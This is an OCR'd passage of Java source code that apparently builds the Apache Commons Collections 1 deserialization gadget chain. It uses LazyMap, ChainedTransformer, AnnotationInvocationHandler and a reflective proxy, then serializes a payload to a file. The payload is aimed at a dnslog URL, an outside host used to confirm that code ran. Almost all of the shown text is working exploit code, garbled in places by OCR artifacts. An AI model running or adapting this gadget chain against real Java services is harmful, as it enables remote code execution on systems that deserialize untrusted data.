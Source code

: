 ```
new Object[] `{``}`), new ConstantTransformer(1) `}`;
// final Map innerMap = new HashMap();
//
// final Map lazyMap = LazyMap.decorate(new HashMap(),
// transformerChain);
// this will generate a
// AnnotationInvocationHandler(Override.class,lazymap) invocationhandler
InvocationHandler invo = (InvocationHandler) getFirstCtor(
"sun.reflect.annotation.AnnotationInvocationHandler")
.newInstance(Override.class,
LazyMap.decorate(new HashMap(), transformerChain));
final Map mapProxy = Map.class.cast(Proxy.newProxyInstance(this
.getClass().getClassLoader(), new Class[] `{` Map.class `}`, invo));
final InvocationHandler handler = (InvocationHandler) getFirstCtor(
"sun.reflect.annotation.AnnotationInvocationHandler")
.newInstance(Override.class, mapProxy);
setFieldValue(transformerChain, "iTransformers", transformers);
return handler;
`}`
public static Constructor&lt;?&gt; getFirstCtor(final String name)
throws Exception `{`
final Constructor&lt;?&gt; ctor = Class.forName(name)
.getDeclaredConstructors()[0];
ctor.setAccessible(true);
return ctor;
`}`
public static Field getField(final Class&lt;?&gt; clazz, final String fieldName)
throws Exception `{`
Field field = clazz.getDeclaredField(fieldName);
if (field == null &amp;&amp; clazz.getSuperclass() != null) `{`
field = getField(clazz.getSuperclass(), fieldName);
`}`
field.setAccessible(true);
return field;
`}`
public static void setFieldValue(final Object obj, final String fieldName,
final Object value) throws Exception `{`
final Field field = getField(obj.getClass(), fieldName);
field.set(obj, value);
`}`
public static void main(final String[] args) throws Exception `{`
final Object objBefore = CommonsCollections1.class.newInstance()
.getObject("http://abc.333d61.dnslog.info/tangscan/iswin.jpg");
File f = new File("/Users/iswin/Downloads/hello.bin");
ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
out.writeObject(objBefore);
out.flush();
out.close();
// Serializables.deserialize(Serializables.serialize(objBefore));
`}`
`}`
```
